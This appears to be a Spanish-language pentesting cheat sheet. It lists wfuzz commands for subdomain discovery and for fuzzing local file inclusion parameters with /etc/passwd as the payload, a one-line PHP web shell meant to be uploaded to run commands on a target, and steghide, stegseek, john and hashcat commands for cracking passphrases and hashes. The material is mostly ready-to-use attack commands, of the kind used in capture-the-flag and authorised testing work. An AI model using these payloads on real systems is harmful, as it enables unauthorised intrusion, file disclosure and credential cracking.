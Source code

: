 Descubrimiento de subdominios:

```shell
wfuzz -c -w wordlist --hc 404 -u http://domain -H "Host: FUZZ.domain" 
```

Descubrimiento de paramétros con los que poder realizar LFI:

```shell
wfuzz -c -w wordlist --hc 404 -u http://domain/page.php?FUZZ=/etc/passwd
```

```shell
wfuzz -c -w wordlist --hc 404 -u http://domain/page.php?test=FUZZ
```

# PHP

Ejecución de comandos en una máquina subiendo un fichero:

```shell
<?php
       system($_GET['cmd']);
?>
```

# FILE CRACKING

Extraer passphrase de una imagen:

```shell
stegseek extract -sf image -wl wordlist
```

```shell
steghide extract -sf image
```

Extraer hashes:

```shell
john -w=wordlist hash
```

Si es MD5 podemos utilizar:

```shell
john --format=Raw-MD5 -w=wordlist hash
```

Si deseamos utilizar hashcat lo primero que necesitaremos será conocer el modo, este aparece en la columna de #:

```shell
hashcat hash wordlist
```

Una vez que sepamos el modo podremos crackearlo:

```shell
hashcat -m mode hash wordlist
```
